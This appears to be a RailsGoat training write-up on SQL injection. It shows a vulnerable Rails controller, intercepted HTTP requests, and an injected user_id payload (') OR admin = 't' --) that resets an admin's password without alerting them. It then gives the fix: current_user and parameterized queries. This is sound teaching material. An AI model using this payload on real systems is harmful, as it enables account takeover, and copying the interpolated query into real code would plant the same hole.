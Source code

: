 # Description

Injection flaws, such as SQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing unauthorized data.

# Bug

This example of SQL Injection also happens to be a form of Insecure Direct Object Reference since it uses user-supplied input to determine the user's profile to update. However, we will discuss the SQL query being used and why it is vulnerable.

Within app/controllers/users_controller.rb

```ruby
  def update
    message = false
    # VULNERABLE CODE, ON THE NEXT LINE (WHERE STATEMENT)
    user = User.where("user_id = '#{params[:user][:user_id]}'").first
    if user
      user.skip_user_id_assign = true
      user.skip_hash_password = true
      user.update_attributes(user_params_without_password)
      if !(params[:user][:password].empty?) && (params[:user][:password] == params[:user][:password_confirmation])
        user.skip_hash_password = false
        user.password = params[:user][:password]
      end
      message = true if user.save!
      respond_to do |format|
        format.html { redirect_to user_account_settings_path(:user_id => current_user.user_id) }
        format.json { render :json => {:msg => message ? "success" : "false "} }
      end
    else
      flash[:error] = "Could not update user!"
      redirect_to user_account_settings_path(:user_id => current_user.user_id)
    end
  end
```

#Solution

### SQL Injection - ATTACK

You will need to use an intercepting proxy or otherwise modify the request prior to it being received by the application. Browse to account_settings (top right, drop-down). Once at the account settings page, type in passwords, and click submit. Now modify the request from:

    POST /users/5.json HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://railsgoat.dev/users/5/account_settings
    Content-Length: 294
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache
    
    utf8=✓&_method=put&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[user_id]=5&user[email]=ken@metacorp.com&user[first_name]=Ken&user[last_name]=Johnson&user[password]=testtest&user[password_confirmation]=testtest

Now we will inject some SQL Query syntax that will return the first result of a query that looks for users that have an admin attribute that is true. So essentially, instead of looking up the user whose data we will change by our user ID, we tell the database to return the first admin and update their data. In this instance, we are changing admin@metacorp.com's password to testtest. We can later login as that user. Granted, we could just change the user_id to 1 and do the same thing, and there are other ways to exploit this weakness but this is a clear-cut example of SQL Injection. **It is important to note that we have omitted the email, first, and last name parameters as a duplicate email address will cause errors. Additionally, we do not wish to change the admin's first and last name as this would alert the admin to the "hack"**.

    POST /users/5.json HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://railsgoat.dev/users/5/account_settings
    Content-Length: 208
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache

    utf8=✓&_method=put&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[user_id]=5') OR admin = 't' --'")&user[password]=testtest1&user[password_confirmation]=testtest1

### SQL Injection - SOLUTION

In this instance, the more secure route would be to reference the current_user object versus pulling from the database manually, using POST parameters provided by the user.

```ruby
  def update
    message = false
    user = current_user
    if user
      user.skip_user_id_assign = true
      user.skip_hash_password = true
      user.update_attributes(user_params_without_password)
      if !(params[:user][:password].empty?) && (params[:user][:password] == params[:user][:password_confirmation])
        user.skip_hash_password = false
        user.password = params[:user][:password]
      end
      message = true if user.save!
      respond_to do |format|
        format.html { redirect_to user_account_settings_path(:user_id => current_user.user_id) }
        format.json { render :json => {:msg => message ? "success" : "false "} }
      end
    else
      flash[:error] = "Could not update user!"
      redirect_to user_account_settings_path(:user_id => current_user.user_id)
    end
  end
```

...However, since we are discussing fixing vulnerable SQL queries, let's discuss parameterized queries. Parameterized queries separate the SQL Query from the dynamic and often untrusted data. You could replace the string interpolated value with the following query and effectively separate the query from untrusted data:

```ruby
User.where("user_id = ?", params[:user][:user_id]).first
```

#Hint

I wonder who else's account needs updating?